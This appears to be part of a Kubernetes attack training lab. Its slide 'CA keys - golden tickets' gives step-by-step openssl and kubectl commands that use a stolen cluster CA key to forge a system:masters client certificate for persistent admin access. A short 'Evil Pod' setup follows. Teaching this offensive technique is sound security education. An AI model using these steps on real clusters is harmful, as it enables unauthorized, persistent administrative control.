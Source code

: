 ### Slide 135 - CA keys - golden tickets (kill shot)


Now we need to generate a private key for our "user" we're going to impersonate
```
openssl genrsa -out user.key 2048
```

Create a CSR (Certificate Signing Request) and in the subject field, we specify the username as a CN (Common Name) and the group as a O (Organization).
```
openssl req -new -key user.key -subj "/CN=kubernetes-admin/O=system:masters" -out user.csr
```

Normally you'd send the CSR to your Certificate Authority to sign it with their private key, and whose signature can be verified with their public cert, but we have the private CA key, so now we are the CA so we'll sign our own request.
Since, we have the private key and a copy of the public cert, we can now sign this CSR as the Kubernetes CA.
```
openssl x509 -req -in user.csr -CA ca.crt -CAkey ca.key -CAcreateserial -out user.crt -days 1024 -sha256
```

The signed cert is output to user.crt

We can now import the cert into our .kube/config file for use by `kubectl`
```
kubectl config set-credentials kubernetes-admin --client-certificate=user.crt --client-key=user.key --embed-certs
```
Now we'll create a context that'll use the credentials and uses the existing cluster settings
```
kubectl config set-context k8s-admin@hacked-cluster --user=kubernetes-admin --cluster kind-lab
```

Finally, we'll switch `kubectl` to use the new context.

```
kubectl config use-context k8s-admin@hacked-cluster
```

You can test out your access, you're still admin, but now its as the cluster admin account you were using before switching to the developer accoount, just with a second certificate.
```
kubectl auth can-i --list
```

You can just keep using this new signed client certificate since its for the same user.

### Slide 139 - Evil Pod (lab)

Let's go back to the original scenario but this time the pod and special service account didn't exist.
```
kubectl delete deployment myapp -n pls-dont-hack-me
```

```
kubectl delete serviceaccount read-secrets -n pls-dont-hack-me
```
